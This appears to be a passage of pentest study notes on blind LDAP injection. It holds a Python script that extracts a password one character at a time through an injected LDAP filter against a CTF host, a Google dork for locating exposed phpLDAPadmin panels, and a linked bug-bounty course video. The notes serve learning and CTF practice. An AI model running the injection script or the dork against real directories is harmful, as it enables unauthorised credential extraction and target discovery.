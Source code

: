 
### **Special Blind LDAP Injection (without "*")**

Copy

```python

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
 print("[i] Looking for number " + str(i))
 for char in alphabet:
 r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
 if ("TRUE CONDITION" in r.text):
 flag += char
 print("[+] Flag: " + flag)
 break
```

## Google Dorks



```
intitle:"phpLDAPadmin" inurl:cmd.php
```

## VIDEO

<iframe width="800" height="545" src="https://www.youtube.com/embed/z1l9BmnrxVE" title="Curso Bug Bounty | LDAP Data Exfiltration &amp; Blind Exploitation- Capitulo 4-2" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

### VID LAB

For this vid lab, we follow the same thing as the previous section, if we use the same payload as before, we get:

![Pasted image 20241011174044.png](../../../../IMAGES/Pasted%20image%2020241011174044.png)
